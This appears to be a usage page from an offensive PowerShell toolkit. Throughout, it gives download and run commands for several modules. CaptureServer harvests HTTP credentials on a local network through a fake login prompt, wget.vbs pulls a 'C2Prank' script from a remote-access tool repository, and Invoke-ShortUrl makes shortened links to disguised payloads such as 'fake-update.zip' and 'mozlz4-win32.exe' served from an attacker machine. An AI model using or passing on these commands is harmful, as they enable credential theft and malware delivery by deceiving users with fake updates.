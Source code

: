 ## Module Name
   <b><i>CaptureServer.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|CaptureServer|Captute HTTP credentials on local lan (spawns credential box)|Administrator|[screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/webcreds.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/CaptureServer.ps1" -OutFile "CaptureServer.ps1"
```

```powershell
Import-Module -Name ".\CaptureServer.ps1" -Force
CaptureServer -AuthType "Basic" -IPAddress "192.168.1.72" -LogFilePath "$Env:TMP\CaptureServer.txt"
Start "http://192.168.1.72:80"
```

<br />

## Module Name
   <b><i>Start-SimpleHTTPServer.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Start-SimpleHTTPServer|Simple HTTP pure powershell webserver|Administrator|Current directory its used as webroot|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Start-SimpleHTTPServer.ps1" -OutFile "Start-SimpleHTTPServer.ps1"
```

```powershell      
Import-Module -Name ".\Start-SimpleHTTPServer.ps1" -Force
Start-SimpleHTTPServer -Port "8080"
```   

<br />

## Module Name
   <b><i>wget.vbs</i></b>
   
|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|wget.vbs|VBScript to download files from Local Lan|User Land|can be executed using **'cscript'** or **'powershell'** interpreter|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/wget.vbs" -OutFile "wget.vbs"
```

```powershell      
cscript wget.vbs http://10.11.0.5/C2Prank.ps1 C2Prank.ps1
.\wget.vbs https://raw.githubusercontent.com/r00t-3xp10it/meterpeter/master/mimiRatz/C2Prank.ps1 C2Prank.ps1
```  

<br />

## Module Name
   <b><i>Invoke-ShortUrl.ps1</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-ShortUrl|TinyUrl url generator|User Land|Dependencies: python3 (http.server)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Invoke-shorturl.ps1" -OutFile "Invoke-ShortUrl.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure python (http.server) its available [optional]
[optional] python -m http.server 8089 --bind 127.0.0.1
```

```powershell
#Get module full help
Get-Help .\Invoke-ShortUrl.ps1 -Full


#URI: http://127.0.0.1:8080/Update-KB5005101.html
.\Invoke-ShortUrl.ps1 -ServerPort '127.0.0.1:8080'

#URI: http://192.168.1.72:8087/update.html
.\Invoke-ShortUrl.ps1 -ServerPort '192.168.1.72:8087' -PayloadName 'update.html'

#URI: http://192.168.1.72:8087/fake-update.zip ( verbose outputs )
.\Invoke-ShortUrl.ps1 -PayloadName 'fake-update.zip' -Verb 'true'

#URI: http://127.0.0.1:8081/Update-KB5005101.html ( start http.server )
.\Invoke-ShortUrl.ps1 -serverport '127.0.0.1:8081' -startserver 'true'

#URI: http://192.168.1.72:8087/mozlz4-win32.exe ( start http.server )
.\Invoke-ShortUrl.ps1 -Payloadname 'mozlz4-win32.exe' -startserver 'true'
```  
